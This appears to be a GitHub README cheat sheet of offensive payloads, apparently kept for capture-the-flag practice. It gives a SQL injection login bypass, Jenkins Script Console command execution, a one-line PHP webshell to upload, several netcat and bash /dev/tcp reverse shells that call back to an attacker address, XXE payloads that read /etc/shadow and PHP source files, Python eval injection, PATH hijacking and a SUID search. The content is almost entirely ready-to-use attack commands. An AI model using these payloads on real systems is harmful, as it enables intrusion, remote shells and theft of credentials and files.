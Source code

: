 Commands for exploits
---

## SQL Injection

```
php sql injection
---
$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";


EXPLOIT:
username = admin'#
```

## Jenkins RCE

Go "Mangage Jenkins" -> "Script Console"

```
def proc = "cat root/flag.txt".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```

## WEBSHELLS

Upload these on the server

```
php
---
<?php echo system($_REQUEST['cmd']);?>

```

## NC REVERSE SHELLS

General nc commands for reverse shells

```
nc listen on attacker
---
nc -lnvp <port>


nc commands on victim (URL encode pls)
---
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <addr> <port> >/tmp/f
rm -f /tmp/p; mknod /tmp/p p && nc <addr> <port> 0/tmp/p
bash -c 'bash -i >& /dev/tcp/<addr>/<port> 0>&1' <--best
```


## XML ATTACKS

```
LFI
---
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ac SYSTEM "file:///etc/shadow"> ]>
                <bugreport>
                <title>&ac;</title>
                <cwe>a</cwe>
                <cvss>a</cvss>
                <reward>a</reward>
                </bugreport>

reading php files
---
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/db.php">]>
                <bugreport>
                <title>&ac;</title>
                <cwe>a</cwe>
                <cvss>a</cvss>
                <reward>a</reward>
                </bugreport>
```

## PYTHON ATTACKS

```
eval
---
you can chain eval commands with a comma

eval("25+1,print('hello!')"
```

## ENV BINARY INJECTION

```
create our own binary, and prepend to PATH
scripts will now look for our binary and execute it
---
echo "commands" > /home/user/binary_name

export PATH=/home/user:$PATH
```

## SUID

```
find / -perm -u=s -type f 2>/dev/null
```

## Website enumeration

- using burpsuite
- go to the website using the proxy
- go the HTTP traffic
- add the request to scope

